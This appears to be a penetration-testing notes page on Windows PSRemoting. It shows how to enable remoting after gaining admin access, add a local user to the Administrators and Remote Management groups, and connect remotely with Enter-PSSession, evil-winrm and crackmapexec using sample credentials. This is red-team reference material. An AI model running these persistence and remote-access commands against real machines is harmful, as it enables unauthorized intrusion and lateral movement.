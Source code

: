 # PSRemoting

## Enabling PSRemoting

After getting administrator access to a machine it is possible to enable PSRemoting:

```
Enable-PSRemoting
```

It might be usefull to add a new user or a user you already have to the local `Administrator` or `Remote Management Group`.

```
net user user Welcome01! /add
net localgroup administrators user /add
net localgroup "Remote Management Users" /add
```

## Accessing the machine

### PowerShell Enter-PSsession

```
Enter-PSSession ws01
```

![](<../../../.gitbook/assets/image (20) (1) (2) (1).png>)

### Evil-WinRM

* [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)

```
evil-winrm -i 10.0.0.128 -u john -p 'Welcome2022!'
```

![](<../../../.gitbook/assets/image (12) (1) (1) (1) (1).png>)

## Crackmapexec

* [https://github.com/byt3bl33d3r/CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)

```
crackmapexec winrm 10.0.0.128 -u john -p 'Welcome2022!'
```

![](<../../../.gitbook/assets/image (42) (1) (1) (1) (1) (1) (1) (1).png>)

{% hint style="info" %}
#### Observation

During testing I found out that crackmapexec is really slow over winrm if Windows Firewall is enabled on our fully up-to-date Windows 10 machine.
{% endhint %}

## References

{% embed url="https://github.com/Hackplayers/evil-winrm" %}

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" %}
